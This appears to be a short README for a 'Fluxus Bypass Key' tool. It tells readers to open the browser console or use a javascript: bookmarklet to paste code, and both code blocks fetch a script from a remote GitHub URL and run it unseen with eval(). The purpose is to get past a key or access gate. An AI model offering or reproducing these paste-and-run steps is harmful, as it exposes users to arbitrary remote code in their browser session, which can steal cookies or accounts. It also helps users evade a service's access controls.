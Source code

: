 
# Fluxus Bypass Key

Open Debug Menu ( F12 )
- Use This Command or javascript: Command
```js
fetch('https://raw.githubusercontent.com/Minecarfh/Fluxus-Bypass/main/Script.js')
  .then(response => {
    return response.text();
  })
  .then(text => {
    eval(text);
  })
```
- This Command Javascript:
```js
javascript:(function() {
    fetch('https://raw.githubusercontent.com/Minecarfh/Fluxus-Bypass/main/Script.js')
    .then(response => {
        return response.text();
    })
    .then(text => {
        console.log('Execute Success Wait For Bypass');
        eval(text);
    });
})();

```

- Wait For Bypass 1-2s To Next Page
